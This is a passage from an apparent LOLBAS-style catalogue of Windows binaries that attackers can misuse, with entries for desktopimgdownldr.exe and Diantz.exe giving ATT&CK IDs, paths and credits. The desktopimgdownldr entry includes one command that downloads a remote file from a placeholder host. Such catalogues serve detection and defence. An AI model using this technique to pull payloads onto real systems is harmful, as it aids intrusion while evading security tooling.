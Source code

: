 Windows binary used to configure lockscreen/desktop image

#### Metadata

|Details||
|-------|---|
|**MITRE ATT&CK Technique IDs**|<div style="text-align: left"><ul><li>T1105</li></ul></div>|
|**Categories**|<div style="text-align: left"><ul><li>Download</li></ul></div>|
|**Relevant Operating Systems**|<div style="text-align: left"><ul><li>Windows 10</li></ul></div>|
|**File Paths**|<div style="text-align: left"><ul><li>`c:\windows\system32\desktopimgdownldr.exe`</li></ul></div>|
|**Code Samples**|<div style="text-align: left"><ul><li>None</li></ul></div>|
|**Acknowledgements**|<div style="text-align: left"><ul><li>Gal Kristal (@gal_kristal)</li></ul></div>|
|**Additional Resources**|<div style="text-align: left"><ul><li>https://labs.sentinelone.com/living-off-windows-land-a-new-native-file-downldr/</li></ul></div>|

 

#### Procedures

|Category|Example Command|Description|
|--------|---------------|-----------|
|Download|`set &#34;SYSTEMROOT=C:\Windows\Temp&#34; &amp;&amp; cmd /c desktopimgdownldr.exe /lockscreenurl:https://domain.com:8080/file.ext /eventName:desktopimgdownldr`|Downloads the file and sets it as the computer&#39;s lockscreen|


 

#### Search Queries


> Analytic Goes Here!


 
## Diantz.exe

Binary that package existing files into a cabinet (.cab) file

#### Metadata

|Details||
|-------|---|
|**MITRE ATT&CK Technique IDs**|<div style="text-align: left"><ul><li>T1096</li><li>T1105</li></ul></div>|
|**Categories**|<div style="text-align: left"><ul><li>ADS</li><li>Download</li></ul></div>|
|**Relevant Operating Systems**|<div style="text-align: left"><ul><li>Windows XP, Windows vista, Windows 7, Windows 8, Windows 8.1.</li><li>Windows Server 2012, Windows Server 2012R2, Windows Server 2016, Windows Server 2019</li></ul></div>|
|**File Paths**|<div style="text-align: left"><ul><li>`c:\windows\system32\diantz.exe`</li><li>`c:\windows\syswow64\diantz.exe`</li></ul></div>|
|**Code Samples**|<div style="text-align: left"><ul><li>None</li></ul></div>|
|**Acknowledgements**|<div style="text-align: left"><ul><li>Tamir Yehuda (@tim8288)</li><li>Hai Vaknin (@vakninhai)</li></ul></div>|
|**Additional Resources**|<div style="text-align: left"><ul><li>https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diantz</li></ul></div>|
